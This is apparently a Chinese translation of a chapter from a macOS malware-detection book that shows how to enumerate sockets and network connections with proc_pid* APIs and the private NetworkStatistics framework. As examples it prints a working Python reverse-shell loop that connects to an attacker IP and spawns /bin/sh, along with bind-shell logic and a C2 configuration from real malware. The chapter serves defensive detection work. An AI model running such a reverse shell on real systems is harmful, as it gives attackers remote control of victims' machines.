


<hgroup>

## 4 网络状态与统计

</hgroup>


大多数 Mac 恶意软件样本会广泛使用网络进行数据外泄、下载额外的负载或与命令与控制服务器通信。如果你能够观察到这些未经授权的网络事件，你可以将它们转化为强大的检测启发式方法。在本章中，我将向你展示如何创建网络活动快照，例如已建立的连接和监听套接字，并将每个事件与其相关的进程关联起来。这些信息应在任何恶意软件检测系统中发挥重要作用，因为它可以检测到甚至是之前未知的恶意软件。

我将集中讨论两种枚举网络信息的方法：proc_pid* APIs 和私有*NetworkStatistics*框架中的 APIs。你可以在本书 GitHub 仓库的第四章文件夹中找到这两种方法的完整代码。

### 基于主机与网络中心的收集

通常，网络信息要么在主机上捕获，要么在网络级别（例如，通过网络安全设备）外部捕获。尽管这两种方法各有优缺点，但本章重点讨论前者。在恶意软件检测方面，我更倾向于主机级方法，因为它可以可靠地识别导致观察到的网络事件的特定进程。

很难过度强调将网络事件与进程关联起来的价值。这个链接使你能够仔细检查访问网络的进程，并对其应用其他启发式方法，以确定它是否可能是恶意的。例如，一个持久安装的、未经认证的二进制文件访问网络时，可能确实是恶意软件。识别相关进程还可以帮助发现伪装其流量为合法的恶意软件；来自签名和经过认证浏览器的标准 HTTP/S 请求可能是良性的，而与一个未被识别的进程关联的相同请求，肯定值得更仔细地检查。

在主机级别收集网络信息的另一个优点是，网络流量通常是加密的，而基于主机的方法通常可以避免后续应用的网络级加密的复杂性。你将在第七章中看到这一点，该章节介绍了用于持续监控网络流量的基于主机的方法。

### 恶意网络活动

当然，程序访问网络并不意味着它是恶意软件。计算机上的大多数合法软件可能都会使用网络。不过，某些类型的网络活动在恶意软件中比在合法软件中更常见。以下是一些你应当更仔细检查的网络活动示例：

> **对任何远程连接开放的监听套接字** 恶意软件可能通过将本地 shell 连接到监听来自外部接口的连接的套接字，来暴露远程访问。
> 
> **Beacon 请求定期发生** 植入物和其他持久性恶意软件可能会定期与其指挥与控制服务器进行通信。
> 
> **大量上传数据** 恶意软件通常会从感染的系统中窃取数据。

让我们考虑一些恶意软件及其网络交互的例子。我们从一个名为 Dummy 的样本开始（这个名字是我自己取的，因为它相当简单）。该恶意软件创建了一个交互式 shell，允许远程攻击者在感染的主机上执行任意命令。具体来说，它会持久执行以下包含 Python 代码的 bash 脚本（我已经格式化以提高可读性）：

```
#!/bin/bash
while :
do
    python -c
        'import socket,subprocess,os;
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("185.243.115.230",1337));
        os.dup2(s.fileno(),0);
        os.dup2(s.fileno(),1);
        os.dup2(s.fileno(),2);
        p=subprocess.call(["/bin/sh","-i"]);'
    sleep 5
done 
```

这段代码连接到攻击者的服务器，位于 185.243.115.230，端口为 1337。然后，它将标准输入（stdin）、标准输出（stdout）和标准错误输出（stderr）流（文件描述符分别为 0、1 和 2）复制到已连接的套接字。最后，它执行*/bin/sh*并加上-i 标志，以完成交互式反向 shell 的设置。如果你在感染主机上枚举网络连接（例如，使用 macOS 的 lsof 工具，列出所有进程的开放文件描述符），你将看到一个属于这个基于 Python 的 shell 的连接：

```
% **lsof -nP | grep 1337 | grep -i python**
Python   ...   TCP   192.168.1.245:63353->185.243.115.230:1337 (ESTABLISHED) 
```

我们的第二个例子与一个涉嫌的中国黑客团体有关，该团体以其 Alchimist [*sic*]攻击框架而闻名。^(1) 当执行时，恶意代码会丢下一个名为*payload.so*的动态库。如果我们在反编译器中打开这个库（最初是用 Go 语言编写的），我们可以看到它包含将 shell 绑定到监听套接字的逻辑：

```
os.Getenv(..., NOTTY_PORT, 0xa,...);
strconv.ParseInt(...);
fmt.Sprintf(..., 0.0.0.0,..., port,...);
net.Listen("tcp", address);
main.handle_connection(...); 
```

它首先读取一个自定义环境变量（NOTTY_PORT），以构建一个格式为*0.0.0.0:port*的网络地址字符串。如果没有指定端口，它会默认为 4444。接下来，它调用 Go *net*库中的 Listen 方法来创建一个监听 TCP 套接字。一个名为 handle_connection 的方法处理任何与此套接字的连接。使用我的网络枚举工具 Netiquette（图 4-1），你可以看到恶意软件的监听套接字。^(2)



图 4-1：Netiquette 显示 4444 端口上的监听套接字

敏锐的读者可能已经注意到，监听 4444 端口的套接字与名为*loader*的进程相关，而不是直接与恶意的*payload.so*库相关。这是因为 macOS 在进程级别跟踪网络事件，而不是在库级别。不幸的是，发现这一威胁的研究人员没有获取到托管该库的程序，因此我编写了*loader*程序来加载并执行恶意库，以进行动态分析。

任何使用系统 API 列举网络连接的代码只能识别网络活动来源的进程。此活动可能直接来自进程主二进制文件中的代码，或者如这里所示，来自其地址空间中加载的某个库，这为我们提供了另一个理由，说明为何值得列举和分析进程加载的库，正如我们在 第一章 中所做的那样。

让我们考虑最后一个示例。与调用 shell 不同，先进的持续威胁（APT）植入程序 oRAT 采取了更常见的方式，通过与攻击者的命令与控制服务器建立连接来进行操作。通过这个连接，它可以接收任务，执行广泛的操作，使远程攻击者完全控制感染的主机。^(3) 不同寻常的是，它通过单个多路复用的持久连接执行所有任务，包括定期的“心跳”检查。我们可以在 oRAT 的二进制文件中找到该连接的配置，如协议和服务器地址。虽然这些信息是加密的，但由于解密密钥也嵌入在二进制文件中，我们可以轻松地在运行时解密或从内存中提取出来，正如《Mac 恶意软件艺术》第一卷第九章所讨论的那样。以下是包含命令与控制服务器信息的解密配置片段：

```
{
    ...
    "C2": {
        "Network": "stcp",
        "Address": "darwin.github.wiki:53"
    },
    ...
} 
```

在配置中，Network 键的值控制 oRAT 是否通过 TCP 或 UDP 进行通信，以及是否对其网络流量进行加密。值为 stcp 表示通过 Go 的传输层安全（TLS）包加密的 TCP。^(4) 配置还揭示了流量将发送到位于 *darwin.github.wiki* 的命令与控制服务器，并将通过端口 53 进行传输。尽管此端口的流量传统上用于 DNS，但没有什么能阻止恶意软件作者利用它，也许是为了与合法的 DNS 流量混淆，或者通过防火墙，它通常允许通过该端口的出站流量。

一旦恶意软件开始运行，我们可以通过系统或第三方网络工具，编程或手动地轻松观察到与攻击者服务器的连接。我将专注于前者，展示如何编程列举套接字和网络连接，为每个连接提供元数据，并识别负责网络活动的进程。

### 捕获网络状态

捕获网络活动有多种方式，例如使用监听套接字和已建立的连接。一个方法是使用各种 `proc_pid*` API。这一工作流灵感来源于 Palomino Labs 的 *get_process_handles* 项目。^(5)

首先，我们将调用 proc_pidinfo 函数，传入进程 ID 和 PROC_PIDLISTFDS 常量，以获取指定进程当前打开的所有文件描述符的列表。我们对这个文件描述符列表感兴趣，因为它也会包括套接字。为了只提取套接字，我们将遍历所有文件描述符，关注那些类型设置为 PROX_FDTYPE_SOCKET 的文件描述符。

某些套接字类型的名称以 AF 为前缀，表示*地址族*。这些套接字中的一些（例如，类型为 AF_UNIX 的套接字）是本地套接字，程序可以将其用作进程间通信（IPC）机制。这些通常与恶意活动无关，因此我们可以忽略它们，尤其是在枚举网络活动的上下文中。然而，对于类型为 AF_INET（用于 IPv4 连接）或 AF_INET6（用于 IPv6 连接）的套接字，我们可以提取诸如协议（UDP 或 TCP）、本地端口和地址等信息。对于 TCP 套接字，我们还将提取它们的远程端口、地址和状态（无论它是监听、已建立连接等）。

让我们通过实现此功能的代码进行逐步讲解，您可以在本章的*enumerateNetworkConnections*项目中找到该代码。

#### 检索进程文件描述符

我们首先调用 proc_pidinfo API，传入进程 ID、PROC_PIDLISTFDS 标志和三个设置为零的参数，以获取进程打开的所有文件描述符的完整列表所需的大小（Listing 4-1）。通常，尤其是对于基于 C 的旧 API（如 proc_pid*），我们会先调用该函数，传入一个 NULL 的缓冲区和零字节的长度，以获取存储数据所需的真实长度。然后，再次调用相同的 API，传入新的大小和新分配的缓冲区，就能返回请求的数据。

```
#import <libproc.h>
#import <sys/proc_info.h>

pid_t pid = <some process id>;

❶ int size = proc_pidinfo(pid, PROC_PIDLISTFDS, 0, NULL, 0);
struct proc_fdinfo* fdInfo = (struct proc_fdinfo*)malloc(size);

❷ proc_pidinfo(pid, PROC_PIDLISTFDS, 0, fdInfo, size);
... 
```

Listing 4-1：获取进程的文件描述符

一旦我们获得了所需的大小并分配了合适的缓冲区❶，我们会重新调用 proc_pidinfo，这次传入缓冲区和其大小，以检索进程的文件描述符❷。当函数返回时，提供的缓冲区将包含一个 proc_fdinfo 结构体的列表：每个结构体对应进程的一个打开的文件描述符。头文件*sys/proc_info.h*定义了这些结构体，如下所示：

```
struct proc_fdinfo {
    int32_t   proc_fd;
    uint32_t  proc_fdtype;
}; 
```

它们仅包含两个成员：一个文件描述符（proc_fd）和文件描述符类型（proc_fdtype）。

#### 提取网络套接字

通过获取进程的文件描述符列表，您现在可以遍历每个文件描述符，查找任何套接字（Listing 4-2）。

```
for(int i = 0; i < (size/PROC_PIDLISTFD_SIZE); i++) {
    if(PROX_FDTYPE_SOCKET != fdInfo[i].proc_fdtype) {
        continue;
    }
} 
```

Listing 4-2：遍历文件描述符列表，忽略非套接字类型

由于缓冲区已填充了一个 `proc_fdinfo` 结构体的列表，代码通过取缓冲区的大小并将其除以 `PROC_PIDLISTFD_SIZE` 常量来确定数组中的项目数量。这个常量便捷地保存了 `proc_fdinfo` 结构体的大小。接下来，代码通过检查每个 `proc_fdinfo` 结构体的 `proc_fdtype` 成员来检查每个文件描述符的类型。套接字的类型是 `PROX_FDTYPE_SOCKET`；代码通过执行 `continue` 语句忽略任何其他类型的文件描述符，这会导致当前的 `for` 循环迭代提前终止并开始下一个迭代，也就是说，它会开始处理下一个文件描述符。

#### 获取套接字详细信息

现在，为了获取关于套接字的详细信息，我们调用 `proc_pidfdinfo` 函数。它接受五个参数：进程 ID、文件描述符、一个指示我们请求的文件描述符信息类型的值、一个指向结构体的输出指针，以及该结构体的大小（列表 4-3）。

```
struct socket_fdinfo socketInfo = {0};

proc_pidfdinfo(pid, fdInfo[i].proc_fd,
PROC_PIDFDSOCKETINFO, &socketInfo, PROC_PIDFDSOCKETINFO_SIZE); 
```

列表 4-3：获取套接字文件描述符信息

因为我们将把这段代码放入一个遍历进程套接字列表的 `for` 循环中（列表 4-2），我们可以通过索引此列表来引用每个套接字：`fdInfo[i].proc_fd`。`PROC_PIDFDSOCKETINFO` 常量指示 API 返回套接字信息，而 `PROC_PIDFDSOCKETINFO_SIZE` 常量包含 `socket_fdinfo` 结构体的大小。你可以在 Apple 的 *sys/proc_info.h* 文件中找到这两个常量。

我提到过，并非所有套接字都与网络活动相关。因此，代码仅关注协议族为 `AF_INET` 或 `AF_INET6` 的网络套接字。这些套接字通常被称为互联网协议（IP）套接字。我们可以通过检查 `socket_fdinfo` 结构体中 `psi` 成员的 `soi_family` 成员来找到套接字的协议族（列表 4-4）。

```
if((AF_INET != socketInfo.psi.soi_family) && (AF_INET6 != socketInfo.psi.soi_family))  {
    continue;
} 
```

列表 4-4：检查套接字的协议族

因为我们在 `for` 循环中执行这段代码，所以通过执行 `continue` 语句跳过任何非 IP 套接字，直接跳到下一个。

代码的其余部分从 `socket_fdinfo` 结构体中提取各种信息并将其保存到字典中。你已经看过这个协议族，它应该是 `AF_INET` 或 `AF_INET6`（列表 4-5）。

```
NSMutableDictionary* details = [NSMutableDictionary dictionary];
details[@"family"] = (AF_INET == socketInfo.psi.soi_family) ? @"IPv4" : @"IPv6"; 
```

列表 4-5：提取套接字的协议族类型

我们可以在 `psi` 结构体的 `soi_kind` 成员中找到套接字的协议。（回想一下，`psi` 是一个 `socket_info` 结构体。）在提取套接字信息时，考虑到协议之间的差异非常重要，因为你将需要引用不同的结构体。对于 UDP 套接字，其 `soi_kind` 设置为 `SOCKINFO_IN`，我们使用 `soi_proto` 结构体中的 `pri_in` 成员，它的类型是 `in_sockinfo`。另一方面，对于 TCP 套接字（`SOCKINFO_TCP`），我们使用 `pri_tcp`，它是一个 `tcp_sockinfo` 结构体（列表 4-6）。

```
if(SOCKINFO_IN == socketInfo.psi.soi_kind) {
    struct in_sockinfo sockInfo_IN = socketInfo.psi.soi_proto.pri_in;
    // Add code to extract information from the UDP socket.
} else if(SOCKINFO_TCP == socketInfo.psi.soi_kind) {
    struct tcp_sockinfo sockInfo_TCP = socketInfo.psi.soi_proto.pri_tcp;
    // Add code to extract information from the TCP socket.
} 
```

列表 4-6：提取 UDP 或 TCP 套接字结构

一旦我们确定了合适的结构，从套接字中提取本地和远程端点等信息对于任何套接字类型来说大致相同。尽管如此，UDP 套接字通常没有绑定，因此远程端点的信息并不总是可用的。此外，这些套接字是无状态的，而 TCP 套接字会有状态。

现在，让我们来看一下从 TCP 套接字中提取感兴趣信息的代码，从本地和远程端口开始（列表 4-7）。

```
} else if(SOCKINFO_TCP == socketInfo.psi.soi_kind) {
    struct tcp_sockinfo sockInfo_TCP = socketInfo.psi.soi_proto.pri_tcp;
    details[@"protocol"] = @"TCP";

    details[@"localPort"] =
    [NSNumber numberWithUnsignedShort:ntohs(sockInfo_TCP.tcpsi_ini.insi_lport)]; ❶

    details[@"remotePort"] =
    [NSNumber numberWithUnsignedShort:ntohs(sockInfo_TCP.tcpsi_ini.insi_fport)]; ❷
    ...
} 
```

列表 4-7：从 TCP 套接字中提取本地和远程端口

我们可以在 tcpsi_ini 结构体中的 insi_lport ❶和 insi_fport ❷成员中找到本地和远程端口，tcpsi_ini 结构体本身是 in_sockinfo 结构体。由于这些端口以网络字节序存储，我们通过 ntohs API 将其转换为主机字节序。

接下来，我们从相同的 tcpsi_ini 结构体中检索本地和远程地址。我们访问哪个结构成员取决于地址是 IPv4 还是 IPv6。在列表 4-8 中，我们提取 IPv4（AF_INET）地址。

```
#import <arpa/inet.h>

if(AF_INET == socketInfo.psi.soi_family) {
    char source[INET_ADDRSTRLEN] = {0};
    char destination[INET_ADDRSTRLEN] = {0};

    inet_ntop(AF_INET,
    &(sockInfo_TCP.tcpsi_ini.insi_laddr.ina_46.i46a_addr4), source, sizeof(source)); ❶

    inet_ntop(AF_INET, &(sockInfo_TCP.tcpsi_ini.insi_faddr.ina_46.i46a_addr4),
    destination, sizeof(destination)); ❷
} 
```

列表 4-8：提取本地和远程 IPv4 地址

如代码所示，我们调用 inet_ntop 函数将 IP 地址转换为人类可读的字符串。当地地址位于 insi_laddr 成员 ❶中，而远程地址则位于 insi_faddr ❷中。地址通过 INET_ADDRSTRLEN 常量指定其最大长度，该常量还包括 NULL 终止符。

对于 IPv6（AF_INET6）套接字，我们再次使用 inet_ntop 函数，但传递给它一个 in6_addr 结构体（在 in_sockinfo 结构体中命名为 ina_6）。还需要注意的是，输出缓冲区的大小应为 INET6_ADDRSTRLEN（列表 4-9）。

```
if(AF_INET6 == socketInfo.psi.soi_family) {
    char source[INET6_ADDRSTRLEN] = {0};
    char destination[INET6_ADDRSTRLEN] = {0};

    inet_ntop(AF_INET6,
    &(sockInfo_IN.insi_laddr.ina_6), source, sizeof(source));

    inet_ntop(AF_INET6,
    &(sockInfo_IN.insi_faddr.ina_6), destination, sizeof(destination));

} 
```

列表 4-9：提取本地和远程 IPv6 地址

最后，我们可以在 tcp_sockinfo 结构体的 tcpsi_state 成员中找到 TCP 连接的状态（无论是关闭、监听、已建立连接等）。*sys/proc_info.h*头文件定义了可能的状态，如下所示：

```
#define TSI_S_CLOSED            0       /* closed */
#define TSI_S_LISTEN            1       /* listening for connection */
#define TSI_S_SYN_SENT          2       /* active, have sent syn */
#define TSI_S_SYN_RECEIVED      3       /* have sent and received syn */
#define TSI_S_ESTABLISHED       4       /* established */
... 
```

在列表 4-10 中，我们使用一个简单的 switch 语句将这些数值的子集转换为人类可读的字符串。

```
switch(sockInfo_TCP.tcpsi_state) {
    case TSI_S_CLOSED:
        details[@"state"] = @"CLOSED";
        break;

    case TSI_S_LISTEN:
        details[@"state"] = @"LISTEN";
        break;

    case TSI_S_ESTABLISHED:
        details[@"state"] = @"ESTABLISHED";
        break;
    ...
} 
```

列表 4-10：将 TCP 状态（tcpsi_state）转换为人类可读的字符串

那么，如果你想将目标 IP 地址解析为域名，该怎么办呢？一种选择是使用 getaddrinfo API，它可以同步完成此操作。此函数将访问 DNS 服务器，将 IP 地址映射到域名，因此你可能希望在一个单独的线程中执行此操作，或者使用其异步版本 getaddrinfo_a。列表 4-11 展示了一个简单的辅助函数，它接受一个 IP 地址作为 char*字符串，然后尝试将其解析为域名并返回为字符串对象。

```
#import <netdb.h>
#import <sys/socket.h>

NSString* hostForAddress(char* address) {
    struct addrinfo* results = NULL;
    char hostname[NI_MAXHOST] = {0};
    NSString* resolvedName = nil;
  ❶ if(0 == getaddrinfo(address, NULL, NULL, &results)) {
      ❷ for(struct addrinfo* r = results; r != NULL; r = r->ai_next) {
            if(0 == getnameinfo(r->ai_addr, r->ai_addrlen,
              ❸ hostname, sizeof(hostname), NULL, 0, 0)) {
                resolvedName = [NSString stringWithUTF8String:hostname];
                break;
            }
        }
    }
    if(NULL != results) {
        freeaddrinfo(results);
    }

    return resolvedName;
} 
```

列表 4-11：将地址解析为域名

IP 地址可能解析为多个主机名，或者根本没有解析到任何主机名。后一种情况在恶意软件中很常见，这些恶意软件包含硬编码的远程服务器 IP 地址，而该地址可能没有域名条目。

IP 地址到主机的解析代码首先调用 getaddrinfo 函数，并传入指定的 IP 地址 ❶。如果此调用成功，它会为指定的地址分配并初始化一个 addrinfo 类型的结构体列表，因为可能会有多个响应。接下来，代码开始遍历这个列表 ❷，在 addrinfo 结构体上调用 getnameinfo 函数 ❸。如果 getnameinfo 函数成功，代码将该名称转换为字符串对象并退出循环，尽管它也可以继续遍历以构建所有解析名称的列表。

#### 运行工具

让我们编译并运行网络枚举代码，该代码位于*enumerateNetworkConnections*项目中，在感染 Dummy 的系统上运行。该代码一次只查看一个进程，因此我们将 Dummy Python 脚本实例的进程 ID（96202）作为参数指定：

```
% **./enumerateNetworkConnections 96202**
Socket details: {
    family = "IPv4";
    protocol = "TCP";
    localPort = 63353;
    localIP = "192.168.1.245";
    remotePort = 1337;
    remoteIP = "185.243.115.230";
    resolved = "pttr2.qrizi.com";
    state = "ESTABLISHED";
} 
```

如预期的那样，该工具能够枚举 Dummy 与攻击者的指挥控制服务器之间的连接。具体来说，它显示了连接的本地和远程端点的信息，以及连接的协议族、协议和状态。

为了在生产环境中改进此代码，你可能希望列举所有网络连接，而不仅仅是用户指定的单一进程的连接。你可以轻松扩展代码，首先检索正在运行的进程列表，然后遍历该列表，列举每个进程的网络连接。回想一下，在第一章中，我展示了如何检索进程 ID 列表。

### 枚举网络连接

我注意到，使用 proc_pid* API 的一个小缺点是它们是特定于进程的。也就是说，它们不会返回关于系统范围内网络活动的信息。虽然我们可以很容易地遍历每个进程，以更广泛地查看系统的网络活动，但私有的*NetworkStatistics*框架提供了一种更高效的方式来完成此任务。它还提供有关每个连接的统计信息，这有助于我们检测恶意软件样本（例如，那些从感染系统中大量提取数据的恶意软件）。

在本节中，我们将使用该框架拍摄全球网络活动的快照，在第七章中，我们将利用它持续接收关于网络活动的更新。

*NetworkStatistics* 框架是 macOS 随附的一个相对鲜为人知的网络实用工具的基础：nettop。当从终端执行 nettop 时，它会显示按进程分组的系统范围内的网络活动。以下是我在 Mac 上运行 nettop 时的简化输出：

```
% **nettop**

launchd.1
    tcp6 *.49152<->*.*
        Listen

timed.352
    udp4 192.168.1.245:123<->usscz2-ntp-001.aaplimg.com:123

WhatsApp Helper.1186
    tcp6 2603:800c:2800:641::cc.54413<->whatsapp-cdn6-shv-01-lax3.fbcdn.net.443   Established

com.apple.WebKi.78285
tcp6 2603:800c:2800:641::cc.54863<->lax17s49-in-x0a.1e100.net.443  Established
tcp4 192.168.1.245:54810<->104.244.42.66:443   Established
tcp4 192.168.1.245:54805<->104.244.42.129:443  Established

Signal Helper (.8431
tcp4 192.168.1.245:54874<->ac88393aca5853df7.awsglobalaccelerator.com:443    Established
tcp4 192.168.1.245:54415<->ac88393aca5853df7.awsglobalaccelerator.com:443    Established 
```

我们可以使用 otool 查看 nettop 如何利用*NetworkStatistics*框架。在旧版 macOS 中，您会在*/System/Library/PrivateFrameworks/*目录下找到此框架，而在新版中，它存储在*dyld*共享缓存中：

```
% **otool -L /usr/bin/nettop**
/usr/bin/nettop:
  /System/Library/Frameworks/CoreFoundation.framework/Versions/A/CoreFoundation
  /usr/lib/libncurses.dylib
  **/System/Library/PrivateFrameworks/NetworkStatistics.framework/Versions/A/NetworkStatistics**
  /usr/lib/libSystem.B.dylib 
```

让我们通过编程方式使用这个框架枚举全系统的网络活动，它可以为我们提供表示监听套接字、网络连接等的网络统计对象。macOS 大师 Jonathan Levin 首先在他的 netbottom 命令行工具中记录了这种方法。（^(6)）本节中展示的代码，以及本章的*enumerateNetworkStatistics*项目，直接受到了他的项目启发。

#### 链接到 NetworkStatistics

任何使用框架的程序必须在编译时链接，或者在运行时动态加载。在 Xcode 中，您可以在“构建阶段”下的“链接二进制文件与库”列表中添加框架（图 4-2）。



图 4-2：链接到 NetworkStatistics 框架

由于*NetworkStatistics*框架是私有的，因此没有公开的头文件，所以您必须手动定义其 API 和常量。例如，您可以使用 NStatManagerCreate API 创建网络统计管理器，但必须首先定义此 API，如清单 4-12 所示。

```
NStatManagerRef NStatManagerCreate(
const struct __CFAllocator*, dispatch_queue_t, void (^)(void*, int)); 
```

清单 4-12：私有 NStatManagerCreate API 的函数定义

同样，您必须定义所有常量，例如描述每个网络统计对象的字典中的键。例如，清单 4-13 展示了如何定义 kNStatSrcKeyPID，这是保存负责网络连接的进程 ID 的键。

```
extern CFStringRef kNStatSrcKeyPID;
```

清单 4-13：私有 kNStatSrcKeyPID 常量的定义

请参阅本章的*enumerateNetworkStatistics*项目的头文件，以获取所有函数和常量定义。

#### 创建网络统计管理器

现在我们已经链接到*NetworkStatistics*框架并定义了必要的 API 和常量，接下来是编写代码。在清单 4-14 中，我们通过 NStatManagerCreate API 创建了一个网络统计管理器。这个管理器是一个不透明对象，后续的*NetworkStatistics* API 调用需要它。

NStatManagerCreate API 的第一个参数是内存分配器。在这里，我们使用默认分配器 kCFAllocatorDefault。第二个参数是一个调度队列，我们将在其中执行第三个参数指定的回调块。我建议使用自定义调度队列，而不是主线程的调度队列，以避免过度使用并可能阻塞主线程。

```
❶ dispatch_queue_t queue = dispatch_queue_create("queue", NULL);

NStatManagerRef manager = NStatManagerCreate(kCFAllocatorDefault, queue,
❷ ^(NStatSourceRef source, int unknown) {
    // Add code here to complete the implementation.
}); 
```

清单 4-14：初始化网络统计管理器

在初始化调度队列❶之后，我们调用 NStatManagerCreate 来创建一个管理对象。这个 API 的最后一个参数是一个回调块，框架会在查询期间调用它。它接受两个参数：一个表示网络统计信息的 NStatSourceRef 对象，以及一个整数，其含义不明（但似乎与我们的代码无关）❷。在下一节中，我将解释当框架调用这个回调时，如何提取感兴趣的网络信息。

#### 定义回调逻辑

当我们使用 NStatManagerQueryAllSourcesDescriptions API 启动查询时，框架会自动调用 NStatManagerCreate 回调块，这将在稍后讨论。为了从传入回调块的每个网络统计对象中提取信息，我们调用 NStatSourceSetDescriptionBlock API 来指定另一个回调块。以下是该函数的定义：

```
void NStatSourceSetDescriptionBlock(NStatSourceRef arg, void (^)(NSMutableDictionary*));
```

我们使用 NStatSourceRef 对象和一个回调块来调用这个函数，框架将在异步调用时，传入一个包含网络统计信息对象的字典（参见列表 4-15）。

```
NStatManagerRef = NStatManagerCreate(kCFAllocatorDefault, queue,
^(NStatSourceRef source, int unknown) {
    NStatSourceSetDescriptionBlock(source, ^(NSMutableDictionary* description) {
        printf("%s\n", description.description.UTF8String);
    });
}); 
```

列表 4-15：设置描述回调块

就目前而言，代码在启动查询之前不会执行任何操作。一旦启动查询，它将调用此块；目前，我们只是简单地打印出描述网络统计对象的字典。

#### 启动查询

在开始查询之前，我们必须告诉框架我们感兴趣的网络统计信息。对于所有 TCP 和 UDP 网络套接字及连接的统计信息，我们分别调用 NStatManagerAddAllTCP 和 NStatManagerAddAllUDP 函数。如列表 4-16 所示，这两个函数的唯一参数是一个我们之前创建的网络统计管理器。

```
NStatManagerAddAllTCP(manager);
NStatManagerAddAllUDP(manager); 
```

列表 4-16：查询 TCP 和 UDP 网络事件的统计信息

现在我们可以通过 NStatManagerQueryAllSourcesDescriptions 函数启动查询（参见列表 4-17）。

```
dispatch_semaphore_t semaphore = dispatch_semaphore_create(0);

❶ NStatManagerQueryAllSourcesDescriptions(manager, ^{
  ❷ dispatch_semaphore_signal(semaphore);
});

❸ dispatch_semaphore_wait(semaphore, DISPATCH_TIME_FOREVER);
❹ NStatManagerDestroy(manager); 
```

列表 4-17：查询所有网络源

一旦我们调用 NStatManagerQueryAllSourcesDescriptions 函数❶，网络统计查询就会开始，框架会为每个网络统计对象调用我们设置的回调块，以提供当前网络状态的全面快照。

NStatManagerQueryAllSourcesDescriptions 函数接受网络统计管理器和另一个回调块，该回调块将在网络查询完成时被调用。在此实现中，我们感兴趣的是网络的快照，因此我们会发送一个信号量❷，主线程会在此信号量上等待❸。查询完成后，我们使用 NStatManagerDestroy 函数清理网络统计管理器❹。

#### 运行工具

如果我们编译并运行这段代码，它将枚举所有网络连接和监听套接字，包括 Dummy 的远程 Shell 连接：

```
% **./enumerateNetworkStatistics**
...
{
    TCPState = Established;
    ...
 ifWiFi = 1;
    interface = 12;
    localAddress = {length = 16, bytes = 0x1002c7f9c0a801f50000000000000000};
    processID = 96202;
    processName = Python;
    provider = TCP;
    ...
    remoteAddress = {length = 16, bytes = 0x10020539b9f373e60000000000000000};
    ...
} 
```

本地地址（kNStatSrcKeyLocal）和远程地址（kNStatSrcKeyRemote）存储在 NSData 对象中，这些对象包含 sockaddr_in 或 sockaddr_in6 结构。如果你想将它们转换为可打印的字符串，你需要调用像 inet_ntop 这样的例程。Listing 4-18 展示了实现这一操作的代码。

```
NSString* convertAddress(NSData* data) {
    in_port_t port = 0;
    char address[INET6_ADDRSTRLEN] = {0};

    struct sockaddr_in* ipv4 = NULL;
    struct sockaddr_in6* ipv6 = NULL;

    if(AF_INET == ((struct sockaddr*)data.bytes)->sa_family) { ❶
        ipv4 = (struct sockaddr_in*)data.bytes;
        port = ntohs(ipv4->sin_port);
        inet_ntop(AF_INET, (const void*)&ipv4->sin_addr, address, INET_ADDRSTRLEN);
    } else if (AF_INET6 == ((struct sockaddr*)data.bytes)->sa_family) { ❷
        ipv6 = (struct sockaddr_in6*)data.bytes;
        port = ntohs(ipv6->sin6_port);
        inet_ntop(AF_INET6, (const void*)&ipv6->sin6_addr, address, INET6_ADDRSTRLEN);
    }

    return [NSString stringWithFormat:@"%s:%hu", address, port];
}
...

NStatManagerRef = NStatManagerCreate(kCFAllocatorDefault, queue,
^(NStatSourceRef source, int unknown) {
    NStatSourceSetDescriptionBlock(source, ^(NSMutableDictionary* description) {
        NSData* source = description[(__bridge NSString*)kNStatSrcKeyLocal];
        NSData* destination = description[(__bridge NSString*)kNStatSrcKeyRemote];

        printf("%s\n", description.description.UTF8String);
        printf("%s -> %s\n",
        convertAddress(source).UTF8String, convertAddress(destination).UTF8String); ❸
    });

}); 
```

Listing 4-18：将数据对象转换为人类可读的地址和端口

这个简单的辅助函数接受一个网络统计地址，然后提取并格式化 IPv4 ❶和 IPv6 地址 ❷的端口和 IP 地址。在这里，它打印出源端点和目标端点 ❸，以提供更可读的输出。例如，以下输出显示了关于 Dummy 反向 Shell 的统计信息：

```
% **./enumerateNetworkStatistics**
...
{
    TCPState = Established;
    ...
    ifWiFi = 1;
    interface = 12;
    **localAddress = 192.168.1.245:63353**
    processID = 96202;
    processName = Python;
    provider = TCP;
    ...
    **remoteAddress = 185.243.115.230:1337**
    ...
} 
```

